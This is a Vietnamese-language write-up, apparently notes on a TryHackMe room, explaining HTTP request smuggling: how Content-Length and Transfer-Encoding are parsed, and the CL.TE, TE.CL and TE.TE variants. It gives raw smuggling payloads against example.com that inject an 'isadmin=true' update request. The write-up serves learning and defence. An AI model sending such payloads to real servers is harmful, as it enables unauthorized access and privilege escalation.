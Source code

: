 ```yaml
---
title: "Linux Privilege Escalation"
date: "2025-03-01"
excerpt: "HTTP Request Smuggling - Tryhackme"
featured: "/images/http_req_smug.png"
---
```


## Introduction

HTTP Request Smuggling là một lỗ hổng phát sinh khi có sự không khớp trong các thành phần cơ sở hạ tầng web khác nhau. Điều này bao gồm proxy, bộ cân bằng tải và máy chủ diễn giải ranh giới của các yêu cầu HTTP. Ví dụ, hãy xem xét một nhà ga xe lửa nơi vé được kiểm tra tại nhiều điểm trước khi lên tàu. Nếu mỗi điểm kiểm tra có tiêu chí khác nhau cho một vé hợp lệ, hành khách có thể khai thác những sự không nhất quán này để lên tàu mà không có vé hợp lệ. Tương tự như vậy, trong các yêu cầu web, lỗ hổng này chủ yếu liên quan đến các tiêu đề Content-Length và Transfer-Encoding, biểu thị phần cuối của nội dung yêu cầu. Khi các tiêu đề này bị thao túng hoặc diễn giải không nhất quán giữa các thành phần, điều này có thể dẫn đến việc một request bị lẫn với một request khác.

![image](https://hackmd.io/_uploads/B1n-VDpcyl.png)

Các cuộc tấn công phân tách yêu cầu hoặc HTTP desync có thể xảy ra do bản chất của các kết nối duy trì trạng thái kết nối và đường ống HTTP, cho phép nhiều yêu cầu được gửi qua cùng một kết nối TCP. Nếu không có các cơ chế này, việc chuyển lậu yêu cầu sẽ không khả thi. Khi tính toán kích thước cho Content-Length (CL) và Transfer-Encoding (TE), điều quan trọng là phải xem xét sự hiện diện của các ký tự trả về đầu dòng `\r` và xuống dòng `\n`. Các ký tự này không chỉ là một phần của định dạng giao thức HTTP mà còn ảnh hưởng đến việc tính toán kích thước nội dung.

## Modern Infrastructure

### Components of Modern Web Applications

- Front-end server: thường là proxy ngược hoặc bộ cân bằng tải và chuyển tiếp request tới backend server. 
- Back-end server: Xử lý các request của người dùng, tương tác với database, gửi data tới frontend.
- Databases
- APIs
- Microservices

### Load Balancers and Reverse Proxies
- Load Balancers: Các thiết bị hoặc dịch vụ này phân phối lưu lượng mạng đến nhiều máy chủ để đảm bảo không có máy chủ nào bị quá tải. VD: AWS Elastic Load Balancing, HAProxy và F5 BIG-IP.
- Reverse Proxies: đứng trước một hay nhiều máy chủ web, chuyển tiếp các yêu cầu của máy khách đến máy chủ web thích hợp. Mục đích chính là cung cấp điểm truy cập và kiểm soát duy nhất cho backend server.

![image](https://hackmd.io/_uploads/B1QLdPTckl.png)

### Role of Caching Mechanisms

Caching là một kỹ thuật dùng để lưu trữ và tái sử dụng dữ liệu đã lấy trước đó hoặc kết quả tính toán để tăng tốc các yêu cầu và tính toán tiếp theo. Trong bối cảnh cơ sở hạ tầng web:

- Content Caching: Lưu trữ web content mà nó không thay đổi (ảnh, css, js)
- Database Query Caching: Lưu trữ kết quả câu truy vấn.
- Full-page Caching: lưu trữ toàn bộ trang web.
- Edge Caching/CDNs
- API Caching

## Behind the Scenes

### Understanding HTTP Request Structure

Tất cả các HTTP Request bao gồm 2 phần: header và body.
![image](https://hackmd.io/_uploads/B1bwXjls1e.png)


### Content-Length Header

Content-Length cho ra kích thước (bytes) của request hay response => thông báo cho server có bao nhiêu data sẽ nhận được.

```
POST /submit HTTP/1.1
Host: good.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
    
q=smuggledData
```

### Transfer-Encoding Header

Được sử dụng để chỉ định hình thức mã hõa được áp dụng cho phần body. Các giá trị cho header này thường là: chunked, compress, deflate, gzip.

```
POST /submit HTTP/1.1
Host: good.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
    
b
q=smuggledData 
0
```
Trong ví dụ trên, "b" ở dạng hệ thập lục phân => 11 hệ thập phân => size = 11 bytes

### How Headers Affect Request Processing

Headers đóng vai trò quan trọng hướng dẫn server xử lý yêu cầu. Điều này do xác định cách phân tích body và ảnh hưởng đến các hành vi của bộ đệm. Chúng cũng ảnh hưởng đến xác thực, chuyển hướng và các phản hồi của máy chủ khác.

![image](https://hackmd.io/_uploads/HJCrqigi1g.png)

Thao túng các header Content-Length và Transfer-Encoding có thể tạo ra lỗ hổng. Ví dụ, nếu 1 proxy server bị nhầm lẫn bởi các header này => không phân biệt được chính xác nơi một yêu cầu kết thúc và một yêu cầu khác bắt đầu.

### HTTP Request Smuggling Origin

HTTP Request Smuggling xảy ra khi sự khác biệt giữa các server khác nhau (FE, BE) xử lý đường biên.
- Nếu cả Content-Length và Transfer-Encoding, nhầm lẫn có thể xảy ra.
- Một số thành phần ưu tiên CTL, và ngược lại.
- Một số thành phần tưởng request đã kết thúc, các thành phần khác thì vẫn tiếp tục dẫn đến smuggling.

![image](https://hackmd.io/_uploads/HJk0osls1l.png)

## Request Smuggling CL.TE

### Introduction to CL.TE request smuggling

CL.TE viết tắt của Content-Length/Transfer-Encoding. Trong kỹ thuạt này khai thác về sự khác biệt giữa các server giữa thứ tự ưu tiên, ví dụ:
- Proxy sử dụng Content-Length để quyết định phần kết thúc của request.
- Backend server sử dụng phần Transfer-Encoding.

![image](https://hackmd.io/_uploads/HJy6Toej1l.png)

### Exploiting CL.TE for Request Smuggling

Kỹ thuật này, hacker sẽ ghép request bao gồm 2 headers, đảm bảo rằng frontend server và backend server diễn giải các đường biên khác nhau.

```
POST /search HTTP/1.1
Host: example.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
```

Ở đây, frontend server thấy độ dài nội dung là 130 bytes -> kết thúc ở isadmin=true. Trong khí đó, backend server thấy Transfer-Encoding: chunked và diễn giải 0 là kết thúc của một đoạn, làm cho yêu cầu thứ 2 bắt đầu 1 đoạn mới. Điều này có thể dẫn đến máy chủ back-end coi bài đăng /cập nhật HTTP /1.1 là một yêu cầu mới, riêng biệt, có khả năng cung cấp cho kẻ tấn công truy cập trái phép.

## Request Smuggling TE.CL

### Introduction to TE.CL Technique

Khi proxy ưu tiên TE, còn backend ưu tiên CL.

![image](https://hackmd.io/_uploads/SkeFfhgoyl.png)


### Exploiting TE.CL for Request Smuggling

```
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

78
POST /update HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

isadmin=true
0
```

## Transfer Encoding Obfuscation

Transfer-Encoding/Transfer-Encoding => Cả FE, BE sử dụng TE.

![image](https://hackmd.io/_uploads/SJIX42ljkx.png)

Khai thác đưa về dạng CL.TE hoặc TE.CL

### Exploiting TE.TE for Request Smuggling

Sử dụng TE Header với mã hóa khác nhau.

```
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
```


